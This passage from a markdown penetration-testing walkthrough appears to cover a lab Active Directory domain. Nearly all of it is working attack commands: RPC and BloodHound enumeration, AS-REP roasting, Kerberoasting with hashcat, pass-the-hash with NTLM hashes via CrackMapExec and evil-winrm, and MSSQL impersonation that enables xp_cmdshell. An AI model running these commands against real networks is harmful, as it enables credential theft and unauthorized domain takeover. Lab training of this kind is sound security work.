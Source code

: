 ### 6.2 Rpcclient Enumeration
```bash
# Using Rpcclient for Domain Info:
proxychains4 -q rpcclient -U p.brown 10.10.1.13
srvinfo
querydominfo
enumdomusers
enumdomgroups
```

### 6.3 BloodHound Ingestion
```bash
# Collecting Data for BloodHound:
proxychains4 bloodhound-python -v --zip -c All -d BYTESHIELD.local -u 'p.brown' -p 'P.Password1!' --dns-tcp -ns 10.10.1.13 -dc ROOT-DC01.BYTESHIELD.local
```

## 7. Domain Privilege Escalation
### 7.1 AS-REP Roasting
```bash
# Extracting AS-REP Responses:
proxychains4 -q impacket-GetNPUsers BYTESHIELD.local/mark.joseph -no-pass
```

### 7.2 Kerberoasting
```bash
# Retrieving Service Tickets:
proxychains4 -q impacket-GetUserSPNs BYTESHIELD.local/p.brown
proxychains4 -q impacket-GetUserSPNs BYTESHIELD.local/p.brown -request

# Cracking the TGS Ticket:
.\hashcat.exe -a 0 -m 13100 .\service_tgs.txt .\PasswordList.txt
```

### 7.3 Pass-the-Hash (PtH) Attacks
```bash
# PtH Using CrackMapExec on SMB:
proxychains4 -q crackmapexec smb 10.10.1.13 -u David.williams -H 9d0615b4cbfc6a2c149059eddcf156b0 --shares
proxychains4 -q crackmapexec smb 10.10.1.13 -u David.williams -H 9d0615b4cbfc6a2c149059eddcf156b0 -x "whoami"

# PtH with MSSQL and Evil-WinRM:
proxychains4 -q crackmapexec mssql 10.10.1.13 -u Jessica.williams -H 0ff636843056b5a523b840944794dbb4 -x "whoami"
proxychains4 -q evil-winrm -i 10.10.1.13 -u jessica.williams -H 0ff636843056b5a523b840944794dbb4
```

### 7.4 MSSQL Server Privilege Escalation
```bash
# Impersonation and Role Verification:
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
EXECUTE AS LOGIN = 'Kevin';
SELECT IS_SRVROLEMEMBER('sysadmin');
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');

# Enabling xp_cmdshell:
sp_configure 'show advanced options', '1';
RECONFIGURE;
sp_configure 'xp_cmdshell', '1';
```